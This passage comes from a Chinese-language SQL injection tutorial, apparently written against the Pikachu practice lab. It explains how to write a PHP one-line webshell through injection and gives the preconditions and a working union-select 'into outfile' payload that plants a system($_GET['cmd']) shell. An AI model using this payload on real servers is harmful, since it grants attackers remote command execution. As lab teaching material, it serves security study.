3. 使用宽字节注入

   ![宽字节注入-3](image\SQL注入\宽字节注入-3.png)

#### 1.4.6 写入数据

一句话木马可以简单便捷的实现攻击者对目标的远程控制，SQL注入可直接实现从创建文件到写入代码，但通过SQL注入写入并利用一句话木马需要具备3个前提条件：

1. 需要知晓服务端远程目录
2. 需要远程目录下具备写入权限
3. 需要数据库启用`secure_file_priv`参数

通过`SHOW VARIABLES LIKE '%secure%';`语句可查询`secure_file_priv`参数是否处于启用状态，查询结果显示为`NULL`或`OFF`都代表处于关闭状态，修改`secure_file_priv`参数状态需要重启数据库服务

1. 通过字符型注入写入一句话木马

   使用`' union select "<?php system($_GET['cmd']);?>",2 into outfile "E:/phpstudy_pro/WWW/pikachu/muma.php"#`在指定路径下生成木马文件，虽然产生警告，但仍写入成功

   ![](image\SQL注入\SQL注入木马-1.png)
